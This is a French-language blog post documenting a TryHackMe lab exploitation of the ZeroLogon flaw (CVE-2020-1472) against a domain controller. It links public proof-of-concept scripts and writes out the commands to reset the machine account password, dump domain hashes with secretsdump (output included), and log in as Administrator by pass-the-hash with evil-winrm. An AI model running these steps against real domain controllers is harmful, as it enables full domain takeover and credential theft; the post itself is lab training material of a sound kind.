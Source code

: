 ```yaml
---
layout: post
title: Test de la vulnérabilité ZeroLogon
subtitle: CVE-2020-1472
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
tags: [ZeroLogon, Windows, Active Directory, CVE-2020-1472, Domain Controller, Impacket, secretsdump]
---
```


**La vulnérabilité Zero Logon, CVE-2020-1472, a été patchée par Microsoft en aout 2020. Depuis, plusieurs PoC ont été développés afin d'exploiter cette faille. Nous testerons une de ces preuves de concept sur une machine de TryHackMe.**

# Description

Zero Logon exploite une fonctionnalité de MS-NRPC (Microsoft NetLogon Remote Protocol), un composant d'authentification critique d'Active Directory qui gère l'authentification des comptes d'utilisateurs et de machines. Cette attaque est rendue possible par une une mauvaise implémentation de la cryptographie. 

# Test de la vulnérabilité

Dans un premier temps, nous allons utiliser un script développé par Secura afin de tester si un serveur est vulnérable à l'attaque ZeroLogon: [https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py](https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py){:target="_blank"}

Pour utiliser ce PoC, nous avons besoin de l'IP du serveur et du nom du controlleur de domaine.

Dans le cas de la box de TryHackMe, voici les infos révelées par Nmap:

![Zerologon-1.png](/img/Zerologon-1.png)

Lançons le PoC de Secura: `python3 zerologon_tester.py [DC_NAME] [IP]`

![Zerologon-2.png](/img/Zerologon-2.png)

Nous avons donc confirmation que ce serveur est vulnérable au Zero Logon :)

# Exploitation

Notre prochaine étape consiste à créer un nouveau mot de passe nul pour le compte du DC. Pour celà nous pouvons utiliser le PoC de Sq00ky: [https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py](https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py){:target="_blank"}

![Zerologon-3.png](/img/Zerologon-3.png)

Nous pouvons désormais dumper les hashs en utilisant secretsdump.py de Impacket:

~~~
root@Host-001:/tmp# python3 /usr/local/bin/secretsdump.py -just-dc -no-pass DC01\$@10.10.181.126
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
(...)
~~~

Nous avons le hash de l'administrateur, nous pouvons nous en servir pour nous connecter: `evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.181.126`

![Zerologon-4.png](/img/Zerologon-4.png)

# Références

[1] CERT-FR, Vulnérabilité dans Microsoft Netlogon, [https://www.cert.ssi.gouv.fr/alerte/CERTFR-2020-ALE-020/](https://www.cert.ssi.gouv.fr/alerte/CERTFR-2020-ALE-020/){:target="_blank"}

[2] 0xdf, ZeroLogon - Owning HTB machines with CVE-2020-1472, [https://0xdf.gitlab.io/2020/09/17/zerologon-owning-htb-machines-with-cve-2020-1472.html](https://0xdf.gitlab.io/2020/09/17/zerologon-owning-htb-machines-with-cve-2020-1472.html){:target="_blank"}

[3] Dirkjanm, CVE-2020-1472, [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472){:target="_blank"}

**Poursuivez avec :** 

- [TryHackMe - Sudo Vulns](https://0xss0rz.github.io/2021-05-11-THM-Sudo-Vulns/)

- [San Diego CTF 2021 - Git Good](https://0xss0rz.github.io/2021-05-10-San-Diego-CTF-Git-Good/)

- [Attack Detection Fundamentals - Discovery Lab 1](https://0xss0rz.github.io/2021-01-15-Attack-Detection-Discovery/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
